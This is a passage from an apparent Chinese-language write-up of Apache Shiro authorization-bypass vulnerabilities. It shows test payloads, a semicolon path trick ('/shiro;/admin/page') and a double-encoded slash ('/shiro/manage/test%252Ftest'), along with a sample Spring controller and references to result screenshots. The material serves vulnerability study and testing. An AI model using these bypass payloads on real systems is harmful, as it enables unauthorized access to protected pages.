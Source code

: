 测试PayLoad：`/shiro;/admin/page`

![image-20211123004319597](img/Shiro权限绕过漏洞汇总.assets/image-20211123004319597.png)

##### 利用方式二：

添加Controller

```java
    @RequestMapping("/manage/{name}")
    public String manageName(@PathVariable String name) {
        return "manage: "+name;
    }
```

正常访问：

![image-20211123005003641](img/Shiro权限绕过漏洞汇总.assets/image-20211123005003641.png)

测试PayLoad：`/shiro/manage/test%252Ftest`

![image-20211123004839016](img/Shiro权限绕过漏洞汇总.assets/image-20211123004839016.png)
